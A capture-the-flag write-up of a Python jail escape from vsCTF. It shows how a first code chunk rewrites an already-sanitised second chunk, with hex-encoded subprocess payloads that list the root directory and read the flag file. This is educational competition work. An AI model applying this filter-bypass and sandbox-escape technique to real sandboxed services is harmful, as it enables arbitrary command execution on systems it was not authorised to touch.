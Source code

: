 ```yaml
---
author: Garfield1002
layout: post
date: 2023-09-25 08:00:00 +0200
tags: misc pyjail vsctf
title: "Not a last minute Pyjail"
excerpt_separator: <!--more-->
---
```


In this challenge we need to solve a pyjail that looks very similar to another pyjail.
<!--more-->
From the very beginning, this pyjail hints that it was ripped from another CTF.

## Mind games

The challenge description comes with the notice:

> This jail was totally not made last minute (based on gctf treebox)

The title also hints that this was quickly put together.

Opening the file, we notice a copyright notice from Google in 2022.

```py
# Copyright 2022 Google LLC
...
# Flag is in a file called "flag" in cwd.
```

The rest of the code looks extremely similar except for 3 major differences:
- The AST is filtered on a whitelist rather than a blacklist
- The characters `@.()#` are banned
- The code is run in chunks delimited by `--CHUNK`

As you probably guessed by now, this challenge has nothing to do with previous challenges.

## The exploit

When we run `exec` we get access to the current context, so we could modify the code contained in the second chunk after it got sanitized.

## The code

We want to encode all our characters as hex to bypass the filters.

let's inject
```py
import subprocess;
p = subprocess.Popen("ls /", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x6c\x73\x20\x2f\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

We find that the flag is located in `/flag.poyvHVzi1MUB72nR0gly.txt`

Let's modify our injected code cat

```py
import subprocess;
p = subprocess.Popen("cat /flag.poyvHVzi1MUB72nR0gly.txt", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x2e\x70\x6f\x79\x76\x48\x56\x7a\x69\x31\x4d\x55\x42\x37\x32\x6e\x52\x30\x67\x6c\x79\x2e\x74\x78\x74\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

## Flag
`vsctf{PYTHONNNNNN_SO_FUNNN}`